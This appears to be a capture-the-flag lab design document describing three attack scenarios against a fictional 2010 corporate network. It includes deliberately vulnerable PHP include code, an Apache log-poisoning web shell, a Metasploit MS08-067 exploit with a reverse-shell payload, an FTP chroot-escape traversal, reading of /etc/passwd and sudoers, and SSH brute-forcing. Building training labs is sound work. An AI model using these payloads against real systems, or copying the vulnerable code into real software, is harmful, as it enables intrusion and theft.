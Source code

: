 
**Host Descriptions:**
*   **Router/GW:** `gateway.ctf2010.local`
    *   OS: Debian Linux 5.0 (Lenny) or CentOS 5.
    *   Role: NAT, basic iptables firewall.
*   **Web-Srv:** `webserver.ctf2010.local`
    *   OS: Ubuntu Server 10.04 LTS.
    *   Services: Apache 2.2 + PHP 5.3.x.
*   **Client:** `client-pc.ctf2010.local`
    *   OS: Windows XP SP3 / Windows 7.
    *   Details: Legacy browser (Firefox 3.6), outdated software.
*   **Internal-Server:** `internal.ctf2010.local`
    *   OS: CentOS 5.
    *   Services: vsftpd, ProFTPD, Samba, SSH on a non-standard port.

---

### Scenario 1: Web Server Attack (LFI -> RCE)

**Objective:** Gain a remote shell on `webserver.ctf2010.local` and retrieve the flag from `/home/www-data/flag.txt`.

**Infrastructure:**
*   **Target:** `webserver.ctf2010.local` (Linux)
*   **Service:** Apache 2.2.14 + PHP 5.3.2
*   **Web App:** A simple PHP site with navigation like `index.php?page=news.html`.

**Vulnerability:**
*   **Local File Inclusion (LFI):** The `index.php` script uses the `page` parameter without proper sanitization.
    *   Vulnerable Code: `<?php include($_GET['page']); ?>`
*   **Insecure PHP Configuration:** `register_globals = On` and `allow_url_include = Off` (default).

**Attack Steps:**
1.  **Reconnaissance:** Port scanning (nmap) reveals open port 80 (HTTP).
2.  **Vulnerability Discovery:**
    *   Test: `http://webserver.ctf2010.local/index.php?page=../../../../etc/passwd`
    *   Success is confirmed if the contents of `/etc/passwd` are displayed in the response.
3.  **Escalation to RCE (Remote Code Execution):**
    *   **Method 1: Apache Log Poisoning.** Force the server to write PHP code into log files (e.g., `access.log`) via the User-Agent header, then include the log file via LFI.
        *   `curl -A "<?php system(\$_GET['cmd']); ?>" http://webserver.ctf2010.local/`
        *   `http://webserver.ctf2010.local/index.php?page=../../../../var/log/apache2/access.log&cmd=id`
    *   **Method 2: `/proc/self/environ` Inclusion.** If the User-Agent is stored in an environment variable and included via `/proc/self/environ`, this can be exploited similarly.
4.  **Command Execution:** Execute commands to find and read the flag: `&cmd=cat /home/www-data/flag.txt`.

**Player's Challenge:**
"Identify and exploit a critical vulnerability in the company's website to achieve remote code execution. Locate the confidential flag file on the server."

---

### Scenario 2: Windows Client Attack (SMB + Buffer Overflow)

**Objective:** Gain full control of `client-pc.ctf2010.local` and find the `flag.txt` file on the user's Desktop.

**Infrastructure:**
*   **Target:** `client-pc.ctf2010.local` (Windows XP SP3)
*   **Services:** SMB (Server Message Block - ports 139/445). Critical patches (like MS08-067) are not installed.

**Vulnerability:**
*   **MS08-067 (CVE-2008-4250):** A critical remote code execution vulnerability in the Server Service. It allows an attacker to run arbitrary code without authentication.

**Attack Steps:**
1.  **Reconnaissance:** Network scanning identifies host `10.0.1.20` with port 445 (SMB) open.
2.  **Vulnerability Confirmation:** Use a vulnerability scanner (e.g., a classic Nessus plugin or a standalone Nmap NSE script) to check for MS08-067.
3.  **Exploitation:**
    *   Launch Metasploit Framework (version 3.x).
    *   `use exploit/windows/smb/ms08_067_netapi`
    *   `set RHOST 10.0.1.20`
    *   `set PAYLOAD windows/meterpreter/reverse_tcp`
    *   `exploit`
4.  **Gaining Access:** A successful exploit will provide a `meterpreter` shell session on the compromised Windows host.
5.  **Flag Retrieval:** Use meterpreter commands to search the filesystem: `search -f flag.txt`, or navigate manually: `shell` -> `dir C:\Documents and Settings\USER\Desktop\flag.txt`.

**Player's Challenge:**
"An employee's workstation in the corporate network is missing critical security updates. Exploit a well-known operating system vulnerability to compromise the machine and retrieve a sensitive file."

---

### Scenario 3: Internal Service Attack (FTP + Privilege Escalation)

A multi-stage attack focusing on service exploitation and misconfiguration.

**Objective:** Gain root access on `internal.ctf2010.local` and read the final flag from `/root/flag.txt`.

**Infrastructure:**
*   **Target:** `internal.ctf2010.local` (Linux, CentOS 5)
*   **Services:** vsftpd 2.0.5 (vulnerable version), SSH on port 2222.

**Vulnerabilities:**
1.  **CVE-2007-5966:** A vulnerability in the chroot mechanism of vsftpd 2.0.5 that allows an authenticated user to escape the chroot jail and access the full filesystem.
2.  **Privilege Escalation via Sudo:** The local user `ftpadmin` has full sudo privileges without a password (`NOPASSWD: ALL` in `/etc/sudoers`).

**Attack Steps:**
1.  **Reconnaissance:** Scanning the target (`10.0.2.30`) reveals ports 21 (FTP) and 2222 (SSH).
2.  **FTP Attack:**
    *   Connect: `ftp 10.0.2.30`
    *   Login: Use anonymous access (or weak credentials like `admin:admin`).
    *   **Exploit vsftpd Chroot Escape:** Use the `CWD` command to traverse outside the chroot: `CWD .../.../.../.../.../.../.../.../.../.../`
    *   This allows listing and downloading system files like `/etc/passwd` and `/etc/sudoers`.
3.  **Analysis & Privilege Escalation:**
    *   Analyze the downloaded `/etc/sudoers` file. Discover the line: `ftpadmin ALL=(ALL) NOPASSWD: ALL`.
    *   This means the user `ftpadmin` can become root with the command `sudo su`.
4.  **SSH Access & Root:**
    *   Brute-force or guess the password for the user `ftpadmin` over SSH on port 2222 (using a tool like `hydra` or a simple wordlist).
    *   Once logged in via SSH, escalate to root: `sudo su -`.
    *   `cat /root/flag.txt`.

**Player's Challenge:**
"Breach the internal file server by exploiting a vulnerability in its FTP service. Analyze the system's configuration to find a path to elevate your privileges to root and access the final flag."
